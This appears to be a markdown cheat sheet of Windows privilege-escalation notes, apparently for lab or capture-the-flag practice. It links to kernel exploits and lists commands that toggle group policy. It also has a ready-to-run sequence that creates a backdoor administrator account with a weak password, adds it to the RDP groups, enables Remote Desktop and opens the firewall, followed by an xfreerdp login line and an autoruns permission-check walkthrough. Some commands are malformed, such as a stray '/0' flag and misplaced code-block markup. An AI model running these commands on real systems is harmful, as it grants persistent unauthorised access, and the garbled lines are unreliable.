 # Windows Privlage Escalation
![alt text](https://miro.medium.com/max/2400/0*I-5KzneqUHfF7bHR.png)
## Kernel Exploits
- https://github.com/SecWiki/windows-kernel-exploits
## Admin Service that a Standard User can run
- https://www.youtube.com/watch?v=3BQKpPNlTSo
## Run Executable in Background
````
start /B program
````
## Disable/Enable Group Policy
- Disable:
````
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /t REG_DWORD /d 1 /f
````
## Enable:
````
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /0 REG_DWORD /d 1 /f
Add Admin & Enable RDP
net user /add hacked Password1
net localgroup administrators hacked /add
net localgroup Administrateurs hacked /add (For French target)
net localgroup "Remote Desktop Users" hacked /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
````
## xfreerdp
````
xfreerdp /v:10.10.25.227 /u:Wade /p:parzival /cert:ignore /drive:/usr/share/windows-resources,share /dynamic-resolution
````
#### Credit
- Taken from Tib3rius

## Basic Enumeration
- Find out the users on the box and enumerate their privlages
````
net users
net users Administrator
````
## Registry Escalation - Autoruns
- Detection
- 1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
- 2. In Autoruns, click on the ‘Logon’ tab.
- 3. From the listed results, notice that the “My Program” entry is pointing to `C:\Program Files\Autorun Program\program.exe`.
- 4. In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
- 5. From the output, notice that the `"Everyone"` user group has `"FILE_ALL_ACCESS"` permission on the `"program.exe"` file.




















